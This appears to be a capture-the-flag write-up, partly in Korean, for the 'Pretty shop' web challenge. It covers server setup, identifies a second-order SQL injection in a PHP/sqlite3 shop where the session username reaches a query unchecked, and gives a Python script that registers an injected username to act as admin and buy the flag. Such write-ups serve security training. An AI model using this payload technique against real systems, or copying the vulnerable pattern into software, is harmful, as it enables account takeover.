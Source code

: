 # Pretty Shop (Hackingcamp 18)

```
문제명 (Challenge name) : Pretty shop
출제자 (Author) : 문시우
난이도 (Difficulty) : Easy
```

### 문제 셋팅 (Settings)

환경 : `apache2, php7.2.7, sqlite3`

1. apache2 설치하고 mod_rewrite 모듈 로드  
$ sudo rewrite.load ../mods-enabled/

2. apache2.conf에서 .htaccess 인식하도록 설정  
AllowOverride를 None에서 All로 바꿔주면 됨

3. sqlite3 설치 및 php-sqlite3 모듈 활성화
$ sudo apt-get install sqlite3  
$ sudo apt-get install php-sqlite3  
$ /etc/php/7.x/apache2/php.ini 에서 ;extension=php_sqlite3.dll 앞에있는 ; 지우기


### 취약점 개요 (Vulnerability)

Concept : Indirect sql injection in sqlite3

`/classes/Shop.class.php` 에서 취약점 발생  
line 42 : `$user = $this->get_user_information($_SESSION['username']);`  
`get_user_information` 메소드로 `$_SESSION['username']`를 그대로 넘겨주고 있다.


### 풀이 방법 (How to exploit)

```python
from requests import post
# pretty shop write up

def main() :
	username = "username=-1'/**/and/**/0/**/or/**/username='admi'||'n';--"
	data = {"username": username, "password": "12345"}
	r = post('http://layer7.kr:6005/register', data=data)

	r = post('http://layer7.kr:6005/login', data=data)
	cookies = {'PHPSESSID':r.cookies['PHPSESSID']}

	get_flag = post('http://layer7.kr:6005/buy', data={'item':'flag'}, cookies=cookies)
	print(get_flag.text)

if __name__ == '__main__' :
	main()
```
